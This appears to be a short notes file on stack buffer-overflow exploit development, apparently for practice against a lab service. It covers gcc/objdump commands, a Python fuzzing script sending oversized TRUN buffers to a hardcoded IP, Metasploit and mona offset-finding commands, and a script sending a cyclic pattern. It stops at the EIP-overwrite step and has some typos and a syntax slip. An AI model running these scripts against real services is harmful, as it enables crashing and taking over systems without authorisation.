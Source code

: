 
Tools ::
	
	gcc - gcc -m32(architecture) file.c -o(output) file.exe
	objdump - objdump -d(disassemble) -Mintel(architecture) file.exe > assembly.txt




Buffer Overflows ::
	
	Fuzzing:
		
		import sys
		import socket

		buffer=["A"]
		counter=100

		while len(buffer) <= 30:
		    buffer.append("A"*counter)
		    counter=counter+200

		for string in buffer:
		    print("Fuzzing... with %s bytes" % len(string))
		    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		    connect=s.connect(('111.61.0.96', 9999))
		    s.send(('TRUN /.:/' + string))
		    s.close()


		when the program crashes, we note the bytes in which it happened and move on to finding the offset.

	Finding the offset:

		/usr/share/metasploit-framework/tools/exploits/pattern_create.rb -l (bytes)

		/usr/share/metasploit-framework/tools/exploits/pattern_offest.rb -l (bytes) -q (EIP)

		or with mona:

			!mona pc (pattern_create)

			!mona po (pattern_offset)r

		import sys
		import socket

		shellcode = <pattern_create>
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		try:
			connect=s.connect(('IP', port))
			s.send(('TRUN' /.:/ + shellcode))
		except:
			print("CHECK DEBUGGER!.")
		s.close()




	Overwriting the EIP:

		import sys
		import socket
